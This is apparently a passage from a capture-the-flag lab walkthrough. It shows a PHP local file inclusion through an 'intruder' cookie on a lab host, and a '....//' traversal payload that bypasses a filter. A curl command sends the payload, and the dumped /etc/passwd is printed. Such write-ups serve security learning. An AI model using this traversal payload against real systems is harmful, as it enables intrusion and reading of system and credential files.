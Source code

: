 ```bash
<H3> Email's recieved in the last 24 hours: </H3>2<BR>
<H3> Current Status: Firewall Activated </H3><BR>
<IMG SRC="http://i.imgur.com/JjipeOj.gif">
</HTML>
</HTML>
```

YES. It **does** work! We have the same output added to the `panel.php` output as we would have if we browsed directly to `mail.php`. By now the assumption was that the code had something like:

```php
if ($_COOKIE['intruder']) {
   include($_COOKIE['intruder']);
}
```

...with some kind of filtering preventing reading the `/etc/passwd`. While I was still pretty excited about finding this vuln, I soon came across [this](https://www.owasp.org/index.php/Testing_for_Path_Traversal_(OWASP-AZ-001)#Gray_Box_testing_and_example) article detailing potential ways of bypassing directory traversal vulnerabilities. After reading this I promptly changed the `intruder` cookie to `....//....//....//....//....//etc/passwd` and viola! :)

```bash
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ....//....//....//....//....//etc/passwd

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
```